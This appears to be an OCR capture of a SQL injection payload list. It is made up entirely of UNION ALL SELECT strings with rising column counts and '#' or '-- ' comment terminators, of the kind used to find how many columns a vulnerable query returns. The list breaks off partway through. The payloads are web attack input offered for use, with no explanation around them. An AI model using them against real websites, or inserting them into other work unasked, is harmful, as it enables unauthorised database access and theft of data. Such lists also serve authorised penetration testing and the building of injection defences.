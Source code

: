      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
     UNION ALL SELECT 1#
     UNION ALL SELECT 1,2#
     UNION ALL SELECT 1,2,3#
     UNION ALL SELECT 1,2,3,4#
     UNION ALL SELECT 1,2,3,4,5#
     UNION ALL SELECT 1,2,3,4,5,6#
     UNION ALL SELECT 1,2,3,4,5,6,7#
     UNION ALL SELECT 1,2,3,4,5,6,7,8#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
     UNION ALL SELECT 1-- 
     UNION ALL SELECT 1,2-- 
     UNION ALL SELECT 1,2,3-- 
     UNION ALL SELECT 1,2,3,4-- 
     UNION ALL SELECT 1,2,3,4,5-- 
     UNION ALL SELECT 1,2,3,4,5,6-- 
     UNION ALL SELECT 1,2,3,4,5,6,7-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- 